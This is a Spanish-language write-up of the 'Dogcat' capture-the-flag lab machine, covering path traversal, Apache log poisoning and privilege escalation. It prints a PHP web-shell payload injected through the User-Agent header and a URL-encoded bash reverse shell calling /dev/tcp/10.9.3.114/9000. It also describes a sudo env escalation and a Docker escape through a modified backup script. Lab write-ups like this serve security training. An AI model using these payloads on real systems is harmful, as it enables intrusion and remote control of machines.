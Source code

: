 ```yaml
---
title: Dogcat
description: Write Up de DogCat de la plataforma tryhackme
published: true
date: 2025-05-09T15:23:21.888Z
tags: 
editor: markdown
dateCreated: 2025-05-06T15:56:05.414Z
---
```


# Dogcat
Bienvenido a la documentación de la máquina Dogcat de la plataforma Hack The Box.
## Reconocimiento
Lo primero que vamos a hacer como siempre es usar nmap para hacer un reconocimiento de los puertos disponibles.

```
nmap -sS -sT -Pn {IP}
```

![Imagen del mapeo de Puertos](/imagenes/dogcat_1.png)

Como podemos observar, tenemos el puerto SSH y un puerto HTTP, vamos a ver que hay en la página web con nuestro navegador favorito.

![Primer vistazo del website](/imagenes/dogcat_2.png)

Parece ser que en el website, podemos decidir que queremos ver, sin embargo podemos observar como la URL se ha modificado y nos pasa un parámetro con el animal que queramos ver...

![Observación de la URL](/imagenes/dogcat_3.png)

Cuando modificamos los inputs, podemos ver una serie de errores, por lo que es posible intentar inyectar código o imágenes maliciosas para ganar acceso

![Errores en la URL](/imagenes/dogcat_4.png)

Si nos fijamos, automáticamente se rellena los parámetros con .php, por lo que se podría intentar hacer una inyección de código.

## Explotación
Vamos a hacer uso de &ext=

¿Qué es "&ext="? Es un parámetro que evita que se añadía .php, al archivo seleccionado, con ello podemos abrir un archivo sin necesidad de que siempre ponga .php, por ejemplo, podemos intentar abrir el /etc/passwd

Por ejemplo, podemos poner dog../../../../../etc/passwd&ext. 

![Forzar extensión](/imagenes/dogcat_5.png)

Y ha funcionado, esto nos da la pista de que podríamos incluso infectar archivos importantes, como access.log de apache2, provocando un log poisoning y con ello el acceso al equipo.


Para ello abriremos nuestro Burpsuite, ya que debemos modificar una serie de cosas. Lo que queremos hacer con Burp Suite es pasar como parámetro en User-Agent (Que se lee en el access.log, de Apache2) <?php system ($_GET['cmd']);?>

Con ello podemos empezar a haz log poisoning dentro del website

![Log Poisoning](/imágenes/dogcat_6.png)

Como resultado obtenemos

![Funciona!](/images/dogcat_7.png)

Ahora vamos a intentar hacer una shell reversa con [Revshells](https://www.revshells.com). En mi caso mi ip es la 10.9.3.114 con el puerto 9000. Sin embargo hay que tener en cuenta que deberemos pasarlo codificado en URL.

Como resultado es el lo siguiente: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.9.3.114%2F9000%200%3E%261%27

![Shell establecida](/imagenes/dogcat_9.png)

Podemos comprobar en la shell que tengamos con el netcat, que tenemos la shell. Vamos a sanear la shell ponemos export TERM=xterm.

## Escalada
Ahora vamos a mirar qué comandos podemos ejecutar como root, para ello hacemos 
``` bash
sudo -l
```

![Escalada de root](/imagenes/dogcat_10.png)

Si nos dirigimos al website de [GTFOBins](https://gtfobins.github.io/gtfobins/env/#shell), podemos ver como hay una forma para obtener root mediante el sudo.


Las flags las tenemos:
- En el propio directorio /var/www/html:
![Primera flag](/imagenes/dogcat_11.png)
- En el directorio de /var/www:
![Segunda flag](/imagenes/dogcat_12.png)
- En el directorio de root:
![Tercera flag](/imagenes/dogcat_13.png)

La última está fuera de docker, debemos tener en cuenta que siempre que estamos en un docker. Se suele crear una carpeta en /opt o /mnt, donde tiene la información. En este caso lo ubicamos en el /opt

![Ir a /opt](/imagenes/dogcat_14.png)

Si miramos la carpeta podemos observar una serie de comandos, donde se hace un tar del contenedor entero.

![Lectura del comando](/imagenes/dogcat_15.png)

Podemos realizar una modificación donde añadimos para que establezca una conexión a nuestro equipo atacante por ejemplo:
![Modificar](/imagenes/dogcat_16.png)
Tras ejecutar el comando deberíamos ser root en la máquina anfitrión también.

Y podremos encontrar la última flag ahí.
![](/imagenes/dogcat_16.png)
